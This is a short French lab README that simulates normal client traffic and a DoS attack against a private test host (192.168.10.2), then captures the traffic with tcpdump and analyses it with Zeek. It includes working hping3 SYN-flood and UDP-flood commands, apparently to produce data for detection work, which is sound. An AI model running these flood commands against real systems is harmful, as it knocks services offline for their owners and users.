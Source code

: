 # **Simulation de trafic normal + Attaque DoS**

- **IP de la cible** : 192.168.10.2 (**Guest2Zone1**)
- **IP des clients (trafic normal)** : 192.168.20.1, 192.168.40.1, 192.168.30.2, 192.168.30.1, 192.168.10.252, 192.168.10.253, 192.168.10.1
- **IP de l'attaquant (DoS)** : 192.168.30.3 (**Guest1Zone3**)
                                192.168.40.2 (**Guest1Zone4**)


- **192.168.20.1** : `while true; do echo "DNS request" | nc -u 192.168.10.2 53; sleep 0.5; done`
- **192.168.40.1** : `while true; do curl http://192.168.10.2:80 & sleep 1; done`
- **192.168.30.2** : `while true; do echo "NTP request" | nc -u 192.168.10.2 123; sleep 1; done`
- **192.168.30.1** : `while true; do echo "random data" | nc -u 192.168.10.2 500; sleep 1; done`
- **192.168.10.252** : `while true; do ping -c 1 192.168.10.2; sleep 1; done`
- **192.168.10.253** : `while true; do curl -X POST http://192.168.10.2:8080 & sleep 2; done`
- **192.168.10.1** : `while true; do nc -zv 192.168.10.2 22; sleep 3; done`

## **Attaque DoS**
- **192.168.30.3 (TCP SYN Flood - Guest1Zone3)** : `sudo hping3 -S --flood -p 80 192.168.10.2`
- **192.168.40.2 (UDP Flood - Guest1Zone4)** : `sudo hping3 --flood --udp -p 53 -d 1400 192.168.10.2`
  
## **Capture du trafic**
- **Sur la cible (Guest2Zone1)** : `sudo tcpdump -i ens3 -w attaque_dos_all_users.pcap`

## **Lecture des capture sur Zeek**
- **Sur la cible (Guest2Zone1)** : `zeek -C -r attaque_dos_all_users.pcap`
  Et ensuite des fichiers log seront générés.
